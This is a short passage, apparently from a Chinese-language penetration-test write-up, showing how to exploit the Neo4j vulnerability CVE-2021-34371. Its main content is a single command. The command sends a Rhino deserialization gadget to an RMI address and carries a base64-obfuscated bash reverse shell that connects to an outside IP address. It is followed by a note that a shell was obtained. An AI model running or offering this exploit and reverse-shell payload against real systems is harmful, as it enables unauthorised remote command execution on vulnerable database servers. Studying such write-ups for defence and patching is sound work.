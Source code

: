 [![](assets/1706513339-c036b4f2224f99bae74895cddbc360e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231557-23725026-bdf0-1.png)

Neo4j 漏洞利用[GitHub - zwjjustdoit/CVE-2021-34371.jar: CVE-2021-34371.jar](https://github.com/zwjjustdoit/CVE-2021-34371.jar)

```bash
java -jar .\rhino_gadget.jar rmi://39.99.128.12:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80My4xMzguNTAuNzIvMzMzMyAwPiYx}|{base64,-d}|{bash,-i}"
```

拿到 shell

[![](assets/1706513339-1a2b5e3628bc5d386c821a4277fdf767.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231606-283ee984-bdf0-1.png)
